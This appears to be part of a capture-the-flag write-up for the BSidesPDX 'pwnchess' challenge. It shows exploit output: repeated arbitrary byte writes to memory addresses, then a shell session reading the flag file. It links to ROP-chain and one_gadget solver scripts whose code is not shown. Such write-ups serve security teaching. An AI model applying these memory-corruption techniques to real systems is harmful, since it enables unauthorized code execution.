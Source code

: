 ```
Enter byte in decimal format (e.g. 255): You entered: 0x0
Value(0x00) written to 0x60204e
1) Perform a read
2) Perform a write
3) Exit
Remaining moves: 240
Enter address in decimal format (e.g. 12345): You entered: 0x60204f
Enter byte in decimal format (e.g. 255): You entered: 0x0
Value(0x00) written to 0x60204f
1) Perform a read
2) Perform a write
3) Exit
Remaining moves: 239
$ id
uid=1000(pwnchess) gid=1000(pwnchess) groups=1000(pwnchess)
$ cat /app/flag.txt
BSidesPDX{th3_0nlYY_w1nn1ng___m0v_1s__2_g3t_y0urs3lf_m0re_m0v3s_aka_ch34t_2_w1n!!}
```

- [Python2 one_gadget implementation](solver_one_gadget_py2.py) (Based on the writeup)
- [Python2 ropchain implementation](solver_ropchain_py2.py) (More portable)
- [Python3 ropchain implementation](solver_ropchain_py3.py) (More portable)
